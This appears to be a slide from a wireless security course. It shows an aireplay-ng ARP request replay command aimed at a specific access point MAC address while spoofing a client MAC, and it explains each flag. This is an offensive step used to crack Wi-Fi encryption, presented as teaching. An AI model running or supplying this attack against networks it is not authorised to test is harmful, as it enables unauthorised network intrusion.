

# Replay command
aireplay-ng --arpreplay -b 48:5D:36:06:CF:C8  -h 9C:EF:D5:FE:2E:F3  wlan0mon

-- arpreplay: standard arp request replay
-b 48:5D:36:06:CF:C8: AP MAC address
-h 9C:EF:D5:FE:2E:F3: the source MAC address (either an associated client or from fake authentication)
wlan0mon : the wireless interface name
11